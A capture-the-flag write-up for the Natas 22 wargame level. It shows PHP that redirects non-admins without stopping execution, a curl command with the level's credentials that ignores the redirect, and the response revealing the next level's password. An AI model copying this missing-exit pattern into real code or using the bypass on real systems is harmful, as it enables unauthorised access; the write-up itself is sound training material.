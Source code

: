 # Natas-22

# Source :

 

```php
<?
session_start();
if(array_key_exists("revelio", $_GET)) {
// only admins can reveal the password
				if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
				header("Location: /");
				}
}

if(array_key_exists("revelio", $_GET)) {

    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
}
?>
```

If there is a get request to the application with revelio parameter set and $_SESSION[”admin”] = 1

we will get the password . If $_SESSION[”admin”]=1 is not in our session file . we will be redirected to  / . But since its not using die() the next if(condition) will be executed and we can intercept that using burp or curl before the redirection occurs .

```php
curl -X GET [http://natas22.natas.labs.overthewire.org/?revelio=1](http://natas22.natas.labs.overthewire.org/?revelio=1) -u 'natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ'
```

## Response

```html
<body>
<h1>natas22</h1>
<div id="content">\
You are an admin. The credentials for the next level are:<br><pre>Username: natas23
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
```

```
natas23 : D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
```